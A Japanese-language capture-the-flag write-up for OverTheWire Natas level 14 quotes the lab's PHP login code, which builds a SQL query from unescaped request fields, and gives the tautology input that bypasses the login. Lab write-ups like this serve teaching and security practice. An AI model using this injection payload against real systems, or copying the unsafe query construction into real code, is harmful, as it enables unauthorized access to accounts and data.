 #![](img/natas14-1.png)  

usernameとpasswordを入力する画面がある。  

適当に入力すると" Access denied!"と表示される。  

#![](img/natas14-2.png)  

ソースコードを見てみる。  

```
 <html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas14", "pass": "<censored>" };</script></head>
<body>
<h1>natas14</h1>
<div id="content">
<?php
if(array_key_exists("username", $_REQUEST)) {
    $link = mysqli_connect('localhost', 'natas14', '<censored>');
    mysqli_select_db($link, 'natas14');

    $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\" and password=\"".$_REQUEST["password"]."\"";
    if(array_key_exists("debug", $_GET)) {
        echo "Executing query: $query<br>";
    }

    if(mysqli_num_rows(mysqli_query($link, $query)) > 0) {
            echo "Successful login! The password for natas15 is <censored><br>";
    } else {
            echo "Access denied!<br>";
    }
    mysqli_close($link);
} else {
?>

<form action="index.php" method="POST">
Username: <input name="username"><br>
Password: <input name="password"><br>
<input type="submit" value="Login" />
</form>
<?php } ?>
<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
```

初めに`array_key_exists`関数で 指定したキーまたは添字が配列にあるかどうかを調べられ、  
`mysql_connect`関数でMySQL サーバーへの接続を行う。  

DBへのクエリを見てみると、  
```
$query = "SELECT * from users where username=\"".$_REQUEST["username"]."\" and password=\"".$_REQUEST["password"]."\"";
```

とあり、クライアントからの文字列をエスケープ処理を行わず組んでいるためSQL Injectionが可能と予想する。  
クエリの結果セットが1つ以上返されたらflagが表示される感じ。  

usernameとpasswordはダブルクォートで囲まれるみたいなので、  
```
username: natas14
password: " or "1"="1
```
みたいなリクエストでtrueになり通れる。  

![](img/natas14-3.png)  




